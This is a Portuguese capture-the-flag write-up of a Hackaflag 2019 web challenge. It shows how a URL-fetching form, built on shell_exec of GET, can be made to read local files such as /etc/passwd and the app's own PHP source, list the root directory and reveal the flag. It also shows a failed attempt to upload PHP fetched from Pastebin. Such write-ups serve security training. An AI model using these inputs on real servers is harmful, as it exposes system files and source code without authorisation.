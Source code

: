 # Don't go breaking my heart

- Desafio da etapa de Belo Horizonte do Hackaflag 2019
- Data do desafio: 2019-06-29
- Categoria: web
- URL original: `http://68.183.31.62:7598/`

A URL leva a uma página com dois campos ("filename" e "Put the URL file") e um botão "send". Inserindo qualquer conteúdo e clicando no botão, a página é atualizada com o caminho do arquivo criado. Ao acessar o arquivo criado, uma página qualquer é carregada. Digitando apenas "abc" no segundo campo, a página do canal americano ABC (`abc.com`) é carregada. Com alguns testes, percebemos que o sistema está buscando o endereço informado no segundo campo e salvando uma cópia em um arquivo com o nome informado no primeiro campo.

Uma possibilidade é criar um código PHP simples e tentar copiá-lo e executá-lo no site. Vamos criar um arquivo no Pastebin com o conteúdo `<?php print("Teste"); ?>`, inserir o endereço (_raw_) no segundo campo e o nome `teste.php` no primeiro campo. Ao enviar, percebemos que o arquivo foi renomeado para `testephp`, removendo o ponto e limitando a possibilidade de especificar extensões.

Outra possibilidade é inserir uma URL **local** da máquina. Se inserirmos `localhost`, obtemos a própria página novamente. Inserindo `/etc/passwd`, obtemos o seguinte resultado:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```

O conteúdo retornado indica que é possível acessar arquivos locais. Inserindo `/var/www/html/index.php` e inspecionado o código-fonte da página gerada, obtemos o código-fonte em PHP, que confirma nossas suspeitas: o programa executa o comando `GET`.

```php
<?php
ini_set('display_errors',1);
ini_set('display_startup_erros',1);
error_reporting(E_ALL);
$sandbox = "uploads/" . md5("x09x09x09x0x90x90x909x09x0aaa___" . $_SERVER["REMOTE_ADDR"]);
@mkdir($sandbox);
@chdir($sandbox);

if(isset($_POST['urlfile'])){
  $data = shell_exec("GET " . escapeshellarg($_POST["urlfile"]));
  $info = pathinfo($_POST["name"]);
  $dir  = str_replace(".", "", basename($info["dirname"]));
  @mkdir($dir);
  @chdir($dir);
  @file_put_contents(str_replace(".","",basename($info["basename"])), $data);
  if(file_exists(str_replace(".","",basename($info['basename'])))){
    $ok = 'file: '.$sandbox."/".str_replace(".","",basename($info['basename']));
  }else{
    $text = 'error';
  }
}
?>
<html>
<head>
<title>xxx</title>
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">

</head>
<body>
<div class='container'>
<form method='post'>
<input name='name' placeholder='filename'>
<input name='urlfile' placeholder='Put the URL file'>
<button type='submit' class='btn'>send</button>
</form>
</div>
<div class='container'>
<?php
if(isset($ok)){
  echo $ok;
}else if(isset($text)){
  echo $text;
}
?>
</div>
</body>
</html>
```

Inserindo apenas `/` no segundo campo, o comando `GET` retornará todos os arquivos e pastas na raiz do sistema.

> Directory listing of /
> 
> - ./
> - ../
> - .dockerenv
> - 41eb682bbf429e4a3aeff0c721af38cc
> - app/
> - bin/
> - boot/
> - create_mysql_admin_user.sh
> - dev/
> - etc/
> - home/
> - lib/
> - lib64/
> - media/
> - mnt/
> - opt/
> - proc/
> - root/
> - run/
> - run.sh
> - sbin/
> - srv/
> - start-apache2.sh
> - start-mysqld.sh
> - sys/
> - tmp/
> - usr/
> - var/
> - x

Um dos arquivos chama a atenção: `41eb682bbf429e4a3aeff0c721af38cc`. Inserindo `/41eb682bbf429e4a3aeff0c721af38cc` no segundo campo, obtemos o conteúdo dele: `HACKAFLAG{uuuh_1_couldnt_1f_1_tr13d}`.
